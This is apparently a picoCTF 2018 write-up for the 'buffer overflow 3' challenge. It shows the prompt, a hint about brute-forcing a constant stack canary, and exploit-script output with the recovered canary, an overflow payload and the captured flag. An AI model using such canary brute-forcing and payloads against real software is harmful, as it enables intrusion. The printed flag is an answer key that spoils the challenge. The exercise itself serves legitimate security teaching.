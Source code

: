 # buffer overflow 3 - Points: 450 - (Solves: 123)

It looks like Dr. Xernon added a stack canary to this [program][1] to
protect against buffer overflows.
Do you think you can bypass the protection and get the flag?
You can find it in /problems/buffer-overflow-3_1_2e6726e5326a80f8f5a9c350284e6c7f.
[Source][2].

[1]: https://2018shell2.picoctf.com/static/2d5da78bcb5e281180e5aa6d21852b58/vuln
[2]: https://2018shell2.picoctf.com/static/2d5da78bcb5e281180e5aa6d21852b58/vuln.c

## Hints

Maybe there's a smart way to brute-force the canary?

---

```sh
% python xpwn.py
[*] '/problems/buffer-overflow-3_1_2e6726e5326a80f8f5a9c350284e6c7f/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Const canary: 0x2c567834
[+] Starting local process '/problems/buffer-overflow-3_1_2e6726e5326a80f8f5a9c350284e6c7f/vuln': pid 2965183
[*] payload       : 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4xV,AAAAAAAAAAAAAAAA\xeb\x86\x04\x08'
[*] Process '/problems/buffer-overflow-3_1_2e6726e5326a80f8f5a9c350284e6c7f/vuln' stopped with exit code -11 (SIGSEGV) (pid 2965183)
Input> Ok... Now Where's the Flag?
picoCTF{eT_tU_bRuT3_F0Rc3_4214775b}
```
